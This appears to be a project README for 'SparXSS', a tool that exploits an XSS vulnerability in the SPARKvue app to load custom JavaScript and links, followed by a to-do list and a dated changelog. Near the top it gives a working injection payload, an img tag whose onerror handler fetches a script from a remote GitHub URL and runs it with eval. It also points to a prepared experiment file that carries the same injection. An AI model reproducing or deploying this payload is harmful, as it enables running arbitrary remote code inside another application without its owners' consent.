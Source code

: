 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)
- May add a tabbing feature to the javascript, but this is not a final decision

## Changelog

10/27/2023
- Added a third button in the hyperlinks menu that lets you copy the text in the textbox, so you can keep adding links incase you either dont want to export the file, or want to keep adding links<br>
  If you do hit the copy button, all you have to do is paste the stuff copied to your clipboard in the textbox when reopening the app
- Added cancel feature to the menu that you type the hyper link URL's in, so you don't have to when you click the button
- Might have found a way to save the textbox .value without manually clicking it, contrary to what I had previously thought you had to do

10/26/2023
- Found out you have to click the textbox to update it before exporting to make the links actually save
- Made the javascript box load with the script instead of everytime the button is clicked

10/25/2023
- Basic link saving functionality added
- The hyperlink button now accepts pressing enter to add a hyperlink

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far

